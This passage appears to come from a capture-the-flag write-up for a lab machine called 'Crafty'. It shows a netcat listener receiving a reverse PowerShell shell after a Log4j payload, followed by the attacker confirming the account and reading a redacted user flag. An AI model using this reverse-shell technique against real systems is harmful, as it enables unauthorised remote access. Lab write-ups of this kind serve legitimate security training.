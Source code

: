 ![Log4j payload sended](/assets/images/Crafty/log4j_payload_sended.png)

We receive the shell as svc_minecraft! And we can see user.txt:

```bash
$ rlwrap nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.221] from (UNKNOWN) [10.10.11.249] 49681
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\users\svc_minecraft\server> whoami
crafty\svc_minecraft
PS C:\users\svc_minecraft\server> cd ..
PS C:\users\svc_minecraft> type Desktop\user.txt
50****************************3b
```
